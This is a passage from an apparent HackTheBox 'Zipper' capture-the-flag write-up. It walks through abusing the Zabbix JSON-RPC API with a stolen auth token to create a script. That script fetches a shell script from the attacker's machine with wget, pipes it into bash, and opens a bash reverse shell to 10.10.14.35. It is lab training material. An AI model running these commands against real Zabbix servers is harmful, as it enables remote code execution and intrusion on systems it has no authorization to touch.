 (For some reason I was not able to access the endpoints using the Bearer token in the headers. However, I've found on https://sbcode.net/zabbix/zabbix-api-examples/ that the token can be used in the JSON object with the attribute 'auth')

```bash
curl --request POST --url 'http://zipper.htb/zabbix/api_jsonrpc.php' --header 'Content-Type: application/json-rpc' --data '{"auth":"3afb55af137e2836bcf73f5a37d4a57a", "jsonrpc":"2.0", "method": "script.get", "params":{"output": "extend"}, "id":"1"}'
```

![Screenshot](/assets/img/htb-zipper-writeup-screenshot/image_6.png)
From the results, we can see that Linux commands were used in these scripts. This means that we should be able to perform remote code execution by creating a new script and execute it manually.

The following bash reverse shell (from revshells.com) will be used.

```bash
bash -i >& /dev/tcp/10.10.14.35/443 0>&1
```

Since it is a bit annoying to deal with escaping special characters, the reverse shell above was saved as 'shell.sh' and hosted on a python http server (port 8888) on the attacker machine.

With that, I've create a new script that retrieves the shellcode and execute it locally. Here we are using wget instead as curl does not exist on the host.

```bash
curl --request POST --url 'http://zipper.htb/zabbix/api_jsonrpc.php' --header 'Content-Type: application/json-rpc' --data '{"auth":"3afb55af137e2836bcf73f5a37d4a57a", "jsonrpc":"2.0", "method": "script.create", "params":{"name": "test", "command":"nohup wget http://10.10.14.35:8888/shell.sh -qO- | bash", "type":0, "scope":2}, "id":"1"}'
```

![Screenshot](/assets/img/htb-zipper-writeup-screenshot/image_7.png)

The to execute the script, we will need to obtain the hostid first.

```bash
curl --request POST --url 'http://zipper.htb/zabbix/api_jsonrpc.php' --header 'Content-Type: application/json-rpc' --data '{"auth":"3afb55af137e2836bcf73f5a37d4a57a", "jsonrpc":"2.0", "method": "host.get", "params":{"output": "extend"}, "id":"1"}'
```

![Screenshot](/assets/img/htb-zipper-writeup-screenshot/image_8.png)
